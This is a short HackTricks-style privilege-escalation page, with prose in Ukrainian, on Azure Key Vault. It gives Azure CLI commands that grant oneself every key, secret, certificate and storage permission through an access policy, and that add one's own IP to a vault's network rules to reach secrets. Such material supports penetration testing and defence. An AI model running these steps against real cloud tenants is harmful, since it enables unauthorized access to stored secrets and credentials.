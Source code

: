 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

Для отримання додаткової інформації про цю службу перегляньте:

{{#ref}}
../az-services/az-keyvault.md
{{#endref}}

### `Microsoft.KeyVault/vaults/write`

Зловмисник з цим дозволом зможе змінити політику сховища ключів (сховище ключів повинно використовувати політики доступу замість RBAC).
```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
--name <vault-name> \
--object-id <your-object-id> \
--key-permissions all \
--secret-permissions all \
--certificate-permissions all \
--storage-permissions all
```
### Modify Network Restrictions

Можливо, у вас є достатні дозволи для доступу до чутливих даних (наприклад, значення секрету), але ви не можете отримати до них доступ, оскільки ключовий сховище обмежене певною мережею. Якщо у вас є дозвіл на зміну мережевих обмежень, ви можете додати свою IP-адресу до списку дозволених IP-адрес.
```bash
# Get the current network restrictions
az keyvault network-rule list --name <vault-name>

# Add your IP to the list
az keyvault network-rule add --name <vault-name> --ip-address <your-ip>
```
{{#include ../../../banners/hacktricks-training.md}}
